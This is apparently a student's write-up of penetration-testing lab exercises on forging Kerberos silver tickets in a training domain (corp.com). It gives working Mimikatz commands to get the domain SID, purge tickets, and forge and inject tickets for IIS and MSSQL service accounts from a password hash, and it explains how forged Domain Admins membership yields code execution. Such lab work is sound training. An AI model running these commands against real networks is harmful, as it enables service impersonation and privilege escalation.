



### 21.4.3.1 Exercises
#### 1. Create and inject a silver ticket for the iis_service account.

1. Obtain Security Identifier for the Domain using the SID of the current user:

   ```powershell
   whoami /user
   ```

   
   The Domain SID is extracted by dropping the final section of the User SID:

   > User SID =       S-1-5-21-4038953314-3014849035-1274281563-1103
   > Domain SID = S-1-5-21-4038953314-3014849035-1274281563

2. Use Mimikatz to purge any existing Kerberos tickets and verify the purge

   ```powershell
   kerberos::purge
   kerberos::list
   ```

3. Craft the silver ticket and load it into memory using the previously obtained hash for iss_service and the SPN to get the FQDN and Service type.

   ```powershell
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   ```

   

#### 2. How can creating a silver ticket with group membership in the Domain Admins group for a SQL service provide a way to gain arbitrary code execution on the associated server?

Every action taken through the service as that user with the silver ticket loaded would be performed with elevated privileges because the service won't bother to verify if the user actually is a member of that group, so it would be trivial to get a prompt or execute any arbitrary code.

#### 3. Create a silver ticket for the SQL service account.

1. Used the same method as above, substituting the previously obtained hash for sql_service and the SPN to get the FQDN and Service type.

   ```powershell
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpSqlServer.corp.com /service:MSSQLSvc /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   ```

   

